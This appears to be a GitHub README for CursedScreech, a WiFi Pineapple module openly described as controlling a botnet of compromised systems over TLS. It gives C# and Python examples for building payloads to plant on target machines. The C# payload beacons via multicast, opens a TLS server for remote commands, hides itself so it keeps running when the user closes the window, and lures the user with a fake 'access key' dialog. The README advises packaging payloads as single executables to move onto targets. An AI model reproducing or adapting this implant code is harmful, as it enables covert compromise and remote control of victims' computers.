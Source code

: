 # CursedScreech

A mass communicator module for the WiFi Pineapple that utilizes TLS to control a botnet of compromised systems.  Included is a C# API and Python API (with documentation) to write payloads that can communicate with CursedScreech and PortalAuth.


# APIs
I recommend using C# over Python to build your payload.  Both APIs are really simple to use but using C# will allow you to create a self-contained executable along with required keys/certificates.  Writing your payload in Python will require you to freeze your code and it can be difficult, if not impossible, to include all required files in a single executable.  If you can't make a single executable you will have to find a way to move the whole dist directory to the target machine.

### C# API Example
```
using System;
using System.Drawing;
using System.Windows.Forms;
using PineappleModules;

namespace Payload
{
	public partial class Form1 : Form {
    
		PA_Authorization pauth = new PA_Authorization();
	
		public Form1() {
			InitializeComponent();
	
			CursedScreech cs = new CursedScreech();
			cs.startMulticaster("231.253.78.29", 19578);
			cs.setRemoteCertificateSerial("EF-BE-AD-DE");
			cs.setRemoteCertificateHash("1234567890ABCDEF");
			cs.startSecureServerThread("Payload.Payload.pfx", "#$My$ecuR3P4ssw*rd&");
		}
		private void Form1_FormClosing(object sender, FormClosingEventArgs e) {
			e.Cancel = true;
			this.Hide();
		}
		private void accessKeyButton_Click(object sender, EventArgs e) {
				
			// Request an access key from the Pineapple
			string key = pauth.getAccessKey();
	
			// Check if a key was returned
			string msg;
			if (key.Length > 0) {
				msg = "Your access key is unique to you so DO NOT give it away!\n\nAccess Key: " + key;
			}
			else {
				msg = "Failed to retrieve an access key from the server.  Please try again later.";
			}
			
			// Display message to the user
			MessageBox.Show(msg);
		}
	}
}

```


### Python API Example
```
from PineappleModules import CursedScreech

cs = CursedScreech("Network Client")
cs.startMulticaster("231.253.78.29", 19578)
cs.setRemoteCertificateSerial("ABCDEF1234567890")
cs.startSecureServerThread("payload.pem", "payload.cer", "cursedscreech.cer")
```
